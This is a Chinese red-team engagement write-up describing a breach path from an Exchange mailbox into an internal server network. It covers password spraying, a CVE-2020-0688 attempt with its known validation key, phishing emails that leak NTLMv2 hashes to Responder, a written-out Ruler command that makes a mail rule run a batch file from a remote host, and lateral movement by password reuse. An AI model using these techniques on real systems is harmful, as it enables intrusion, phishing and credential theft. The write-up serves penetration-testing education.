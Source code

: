 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/FbA1BshhyQFWsW4nAgxQFw)

这是 **酒仙桥六号部队** 的第 **12****2** 篇文章。

全文共计 3455 个字，预计阅读时长 10 分钟。

**前言**

无论是红队项目还是渗透项目，打点的过程总是充斥着不确定性的，在一个攻击面上充满着各种可能性，每一个对外开放的服务都可能成为我们进入内网的通道，随着每个人关注点的不同，进入内网的方式也是多种多样的。以下内容是针对红队评估的经历从外网到办公网再到服务器区的一次经历，从一次次绝望再到放弃再到重见光明，阐述了一个 “红队 er” 不抛弃不放弃誓 “死” 撑到最后一刻的决心。

**从打点到放弃**

任务计划已经过半了，通过前期进行打点操作未发现特别有价值的漏洞能够突破边界进入内网。眼看项目已经过半了，一般资产不是特别庞大的情况下利用几天时间看一下目标没有有价值的漏洞的话后边很难通过常规方式继续进行下去，是时候换换思路了。 我们知道在突破边界的时候其实通过搞网站去突破边界往往要优于通过办公网络突破边界，但是往往有时候办公网络也能够给我们惊喜。  

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5OXXN5hvely8X2ZmicxZYITI6vPpkic7tGd8Md3n8cxZodaRqpHiaqdevw/640?wx_fmt=png)

让我们整理一下思绪想一想现在手上所有的信息，我能够利用这些信息去做什么事情，我们先来整理一下外围资产的情况。1、网站几乎都是 java+.net；2、邮箱使用 exchange；3、未发现 vpn 等通道。

只能尝试从邮箱进行突破了，有一个比较好一点的消息是这个邮箱登录处保留初始设置，没有添加验证码，这一点给我们突破带来了比较有利的因素。

首先来看一下能否判断出这个 exchange 的版本，exchange 的版本号是可以通过内部版本号进行匹配大致得出使用的版本的，这点我们可以参考一下微软官网 “Exchange Server 内部版本号”。在 owa 页面查看源代码在一个图标 ico 的链接处可以看到内部版本号。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5GU9sdmj6W9g7hfYJHTVlYruExELfID0Xp59xrR6Gdc1Giaic84UuC9lQ/640?wx_fmt=png)

版本对应图

链接：

https://docs.microsoft.com/zh-cn/Exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5YBVIEm4CC3dvlgeTicoarFRaKTic2N6iblLt0mAyNJWdHgFjbwoulDwbg/640?wx_fmt=png)

可以看到源码中看到的 “内部版本号” 对应 exchange 的 2013 CU23，这个版本的 exchange 存在反序列化可以在获得账号密码之后登录进行反序列化导致 rce，接下来的工作就放在了获得账号权限上边。

选了三个复杂密码 + 1000 个常见用户名进行密码喷洒，成功爆破出一个账号。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5VxwwCibvY3p8IRNciaibStwt7l7iciciangiaxhlSAucnG6vDW1rYoJhqpKfw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5K8UbZT4PDGIntHXnJGqZSPYZQoEY5ibh2DFtI5gxSsP4Yuciadnqp5pg/640?wx_fmt=png)

通过登录此账号的邮箱发现这个用户邮箱中没有什么可利用的邮件，且利用邮箱的频率也不高，尝试一下 cve-2020-0688 看能不能 rce。

获取 “ASP.NET_SessionId”.

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5Q3ur28AoEWCAc7q2eZsavTPR3nZFMiaU0o8SmYaYwPzIq6icsHrTCcaw/640?wx_fmt=png)

参数 “__VIEWSTATEGENERATOR” 使用通用值“B97B4E27”；

参数 “validationkey” 使用“CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF”，此参数如果修复了漏洞会做随机化处理则无法利用此漏洞。

生成反序列化 payload。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5ZQkBRQ52CvwXnPpeGVWuI1IEdIjm6YvNqHd3VyF3YkcY8fD6qS3Zcw/640?wx_fmt=png)

提交触发请求。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5vs8VEqiarb6iaI6iaJHcOBP8kkWngE3MtoW1fLdyIwicQ42StEziaicUdFuw/640?wx_fmt=png)

激动半天结果 dnslog 没有返回任何结果（甚至一度幻想会不会是 dnslog 出问题了），直接尝试进行反弹 shell 也没有任何反应（继续幻想一定是我某个参数写错了）。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5zapOXYdianZ2sibEC3otNkf7LpsaX4lJcaVLebEqGIa5I4VVFulzey5A/640?wx_fmt=png)

**从外网邮箱到内网突破**

这种方式看来是失败了，现在的思路是继续使用内部拿到的仅有的一个账号进行内部钓鱼，看能否获取到高权限的账号，由于利用 owa 进行暴力破解需要不断发包，而且根据前期密码喷洒结果来看再爆出高价值用户的密码需要发包的次数会过高，容易触发告警，且钓取高价值目标通过常规钓鱼发木马的方式也不一定好用，这里计划窃取 NetNTLMv2 hash 进行离线破解，加大爆破成功的几率，尽可能减少与目标的交互防止被防守方发现。  

通过查看邮箱通讯录，选取了 20 个目标进行 hash 窃取（但愿这些人常看邮件。。。），这 20 个人分别为运维部包含下属分支和开发部。由于人数不多这里单独进行发送，增加可信度。

邮件大致内容为我是行政小妹妹，请小哥哥帮我看一下这个报错是什么意思。我们通过在邮件中载入 html，在代码中插入图片的方式，受害者只要看到这个邮件我们就能抓到他的 hash。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5KjfE79wV49AibZcunXyrlEXdkdTc1mc3TmbjnEnlZtSH7ELryMdQu9Q/640?wx_fmt=png)

启动 Responder 进行监听。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5YLKr8SXbH3xdsuuxkLhmLQoFib0fZFnSXC7V2pQjw16zjSDCGPiaicCUg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5p6UIibN38aE9UJ8k3BurU1Xm0dYkwIaU3mJSa8t7GicsrAXO7nMeVaeA/640?wx_fmt=png)

收到第一个 hash 已经是第二天早上，上午陆续收到 5 个 hash，下午收到 2 个，后来进行分批次破解，破解成功了两个 hash 密码。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5fWTU1J5IP6JvQ3uXcsIBXTO9xwJMQdiaOoQEf3m49YDh0WwzFU88dLQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5S1ySgAMqv3Xbhlq89yNsbHrm8rhGdeZ4nxlhakPhbr2EhXmcibOibVhQ/640?wx_fmt=png)

通过登录该用户的邮箱没有发现太多对继续渗透有帮助的内容，不过有一封邮件引起了我的注意，这封邮件的大体内容是整个公司的访问控制没有完全做好，有部分办公网络和全部 IT 部门主机权限仍然过大，需要在指定时间内对网络访问控制做好，请相关部门进行统一整理划分。这是个很重要的信息，它告诉我们只要进入了办公网络就有一定几率访问到绝大部分的服务器主机，只要能进入到 IT 部门的任意一台主机就能够访问到所有服务器主机。没有退路可言继续干吧。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5SJLVZY7VV85eAOQ0VzAgNzPGJgsgpd3V0r2v9YdSJDcYibuK0LeWLFA/640?wx_fmt=png)

通过邮件进行钓鱼的方式很多，但是一些好的方式一定是要让用户感知度很低才可以，这样才能保证上线率的提高，况且我们现在只有三个机会，分别为普通员工所在的办公网络人员账号密码一个，运维人员和开发人员所在的 IT 部门网络各一个，通过这三个账号，我们尝试一下能不能够达到我们的预期效果成功反弹 shell 回来。

在这里我们通过创建邮件规则的方式尝试进行 shell 反弹。

```
./ruler-linux64 --email username@xxxx.com -u username -p password add --trigger "updatefile" --name updatefiler --location "\\\\x.x.x.x@SSL\\updatefile.zip\\update.bat" –send
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5icgFiaUd2rN6ItKQZXDN39bH59VKt2nbpnZF9N4l6Lb8S5sxZFmSHaDA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5HBaaycNYkyqlata7TNv6ke1AwGIfDvQsyaahibZmMViaqOc0UhicGG11A/640?wx_fmt=png)

删除创建的规则。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5cxLdtQa0n3Fx5ER9ZWV5x7b03yJXibeksBiacJibvpbp9EgnwtaNQC3Qg/640?wx_fmt=png)

看到 cs 弹回来的 shell 我激动不已，一方面终于进到内网了，另一方面是这个人对应的组织架构是开发，应该是在 IT 部门网络，说明权限还是比较大的。

**办公网到服务器区**

此时距离此行动结束还有两天时间，我们意识到要在尽可能短的时间内进行横向渗透拿到尽可能多台服务器主机，由于个人主机权限非常不稳定，可用时间都是跟着上下班时间走的，晚上就不能干活了，跟小伙伴做了分工，在尽可能不触发大规模告警的情况下找到了服务器所在网段一顿梭哈。  

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5tg536ZKIsdOz6yhp9DrwRsWnlicAOFAlP6LF6X1ao0pMWhd6oL0iaCag/640?wx_fmt=png)

首先为了快，先扫了一下 445 端口探测了一下 ms17010，不过这个洞近段时间真的不怎么好用了，不是指漏洞不好用，而是要么漏洞修复了，要么服务器装杀软了，而且现在很多公司就算不打补丁就会优先在服务器区限制 445 端口，能够真正打进去的真不算多，很显然结果让我比较失望。

当时已经下午 2 点多，距离下班时间已经很接近，内心非常焦灼，如果大规模扫描多个端口可能会浪费非常多的时间，因为拿到的这台个人主机属于开发人员，我们把目标扫描端口重点放在了 web 服务和数据库服务这两块，每人只扫描一个端口希望能够在最短的时间内能够完成端口扫描。过了不久我在一个 redis 服务器上利用 redis 主从复制 rce 拿下了服务器区第一台主机，正在我准备做代理的时候小伙伴那边扫到了一台 sql server 的数据库弱口令，我们直接去搞这台 windows 了，剩下一个小伙伴在 redis 那台服务器上做了维权和代理以防万一。

通过 msf 执行命令。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5KLqbohxPV2uvVA1VWAGdNPe9Yw4ibI8OGfiaFQIk0rhibpI92xvcuNQ9w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5GgHT18OrQOWkQBoLcULvBtzHmjFwXlFUVWpsgnDlXwCia5TrYibPFa6w/640?wx_fmt=png)

获取主机密码。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5Tb1O65GBiaZDEyOicp4epcAUfg2WBYIaTYWicblOAS3TnOGrSBKpBCYXA/640?wx_fmt=png)

发现密码规则为前边固定字符后边 4 个字符为年份，一般这种密码很容易在网络中存在同口令或者有规律的口令，于是乎进行密钥喷洒尝试，撞到了很多同口令和规律口令的主机。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5ZhcUy6WMPXfyyicUJZ5k6XYiclCiafS5eY9K1hE4iaI1EQZic07U18CO6Xg/640?wx_fmt=png)

大致看了一下对应的系统都是一些内部的网站系统。此时距离行动结束还有一天的时间，剩下的时间应该可以开心的划水了。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55gvfuZmLD0bLAm0gQE5SV5ianJ8REmhwY2iaLDq8zFXNzPDKv2hguQlYeJGPG7O6tR8yVNFicLKQQYw/640?wx_fmt=png)

回想一下这次渗透的整个过程和这个目标的特点，其实对于这个目标来说外围加固已经很不错了，暴露点很少而且外网基本没发现能够撕开的口子，但是我们需要利用有限的资源尽可能发挥其最大的作用。我把每一次红队或者渗透的行动都当作一个案例，每个案例都会有其独特的攻击路径和方案，而我们需要去寻找最优的攻击方案，随着方案的优化和改进我们能够看到的攻击面和攻击点就会逐渐显现出来。

**总结**

我们通过外网打点未发现可用的漏洞能够直接搞进内网，继而转向外网的邮件系统，通过邮件系统的爆破进入一个人员的邮箱系统在未发现可用邮件能够支撑我们进行下一步渗透的情况下结合钓鱼的方式通过 outlook 抓取目标人员的 ntlmv2 hash 进行离线破解，拿到目标人员的账号密码之后，通过查看邮箱内容发现网络隔离规律继而通过邮箱规则获得受攻击者的主机 shell，通过拿到的办公区主机 shell 进行内网渗透，获得一台 windows 系统权限之后通过同密码和有规律密码进行密码喷洒获得大量内网主机。  

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCib3tHSia4iaVNVeRfP12IWicjQwfVekvflKEC9XqUJGK8r6TMhcYd3GFw0g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCibiaRBNn0A5YI88OyFjU8fn2Isf9bat4vQn18NwG6cXxVOSuKiapNm2nibQ/640?wx_fmt=png)